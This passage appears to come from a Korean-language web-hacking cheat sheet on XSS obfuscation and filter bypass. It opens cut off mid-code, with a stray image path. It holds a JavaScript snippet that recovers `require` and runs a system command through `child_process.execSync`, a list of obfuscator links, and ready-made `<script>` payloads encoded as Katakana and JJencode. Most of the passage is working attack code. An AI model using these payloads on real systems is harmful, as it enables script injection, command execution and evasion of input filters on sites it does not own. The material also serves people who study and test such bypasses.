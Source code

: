 ```javascript
const fn = x.getFunction()
console.log(String(fn).slice(0, 200))
console.log(fn?.arguments)
console.log('='.repeat(40))
if ((args = fn?.arguments)?.length > 0) {
req = args[1]
console.log(req('child_process').execSync('id').toString())
}
}
}
trigger()
```
### 난독화 및 고급 우회

- **한 페이지에서 다양한 난독화:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
- [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
- [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
- [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
- [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
- [http://www.jsfuck.com/](http://www.jsfuck.com)
- 더 정교한 JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
- [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
- [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
- [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
```javascript
//Katana
<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>
```

```javascript
//JJencode
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```

```javascript
//JSFuck
```